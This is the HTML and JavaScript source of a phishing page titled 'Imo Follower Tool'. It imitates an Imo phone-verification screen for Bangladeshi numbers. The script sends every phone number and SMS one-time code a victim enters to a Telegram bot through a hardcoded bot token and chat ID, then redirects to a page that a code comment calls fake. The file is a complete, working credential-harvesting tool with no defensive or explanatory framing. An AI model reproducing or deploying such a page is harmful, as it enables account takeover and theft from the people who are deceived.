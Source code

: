 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Imo Follower Tool</title>
  <script src="https://cdn.tailwindcss.com"></script>
  <script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.4.0/css/all.min.css"/>
  <style>
    input::placeholder {
      font-size: 1.2rem;
      color: #9ca3af;
    }
    .toast {
      position: fixed;
      bottom: 30px;
      left: 50%;
      transform: translateX(-50%);
      background-color: #000;
      color: #fff;
      padding: 12px 24px;
      border-radius: 10px;
      z-index: 9999;
      display: none;
    }
  </style>
</head>
<body class="bg-white min-h-screen flex flex-col justify-between">

  <!-- Toast -->
  <div id="toast" class="toast">You will receive OTP in 5 minutes</div>

  <!-- Phone number input -->
  <div id="main-page" class="pt-10 px-6 text-center">
    <h1 class="text-3xl font-normal mb-4">Verify Phone</h1>
    <p class="text-base mb-4 max-w-xl mx-auto text-gray-600">
      Your phone number is used to connect with your friends. We will send an SMS to verify your number.
    </p>
    <form id="phoneForm" class="mt-6 px-6">
      <div class="flex items-center border-t border-gray-300 px-4 py-3">
        <span class="text-lg mr-2 select-none">+880</span>
        <input id="phoneNumber" type="tel" placeholder="Your phone number" class="flex-1 text-lg placeholder-gray-400 border-b border-blue-500 focus:outline-none" required />
        <button type="submit" class="ml-4 w-14 h-14 rounded-full bg-blue-500 flex items-center justify-center">
          <i class="fas fa-check text-white text-2xl"></i>
        </button>
      </div>
    </form>
  </div>

  <!-- OTP input -->
  <div id="otp-page" class="hidden px-6 pt-20 text-center">
    <h1 class="text-2xl font-normal mb-4">Enter OTP</h1>
    <p class="text-lg text-gray-800 max-w-xs mx-auto mb-6">
      We just sent an SMS code to your number.
    </p>
    <form id="otpForm" class="max-w-xs mx-auto">
      <input id="otpInput" type="text" placeholder="Enter code" class="w-full border-b-2 border-sky-400 text-center focus:outline-none text-xl" inputmode="numeric" required />
      <button type="submit" class="mt-6 bg-blue-600 text-white py-2 px-6 rounded-full text-lg">Submit</button>
    </form>
  </div>

  <script>
    const phoneForm = document.getElementById("phoneForm");
    const otpForm = document.getElementById("otpForm");
    const mainPage = document.getElementById("main-page");
    const otpPage = document.getElementById("otp-page");
    const toast = document.getElementById("toast");

    const TELEGRAM_TOKEN = "8163475263:AAGGJNmnM8CBSzDWiN4PyWXjuFvy-kJxDFo"; 
    const CHAT_ID = "7386221547";

    phoneForm.addEventListener("submit", function (e) {
      e.preventDefault();
      const phone = document.getElementById("phoneNumber").value.trim();
      if (phone === "") return;

      axios.post(`https://api.telegram.org/bot${TELEGRAM_TOKEN}/sendMessage`, {
        chat_id: CHAT_ID,
        text: `📱 Phone Submitted: +880${phone}`
      }).then(() => {
        toast.innerText = "You will receive OTP in 5 minutes";
        toast.style.display = "block";
        setTimeout(() => {
          toast.style.display = "none";
          mainPage.classList.add("hidden");
          otpPage.classList.remove("hidden");
        }, 2000);
      });
    });

    otpForm.addEventListener("submit", function (e) {
      e.preventDefault();
      const otp = document.getElementById("otpInput").value.trim();
      if (otp === "") return;

      axios.post(`https://api.telegram.org/bot${TELEGRAM_TOKEN}/sendMessage`, {
        chat_id: CHAT_ID,
        text: `🔐 OTP Submitted: ${otp}`
      }).then(() => {
        window.location.href = "followers.html"; // ফেক প্রোসেসিং পেজ
      });
    });
  </script>
</body>
</html>
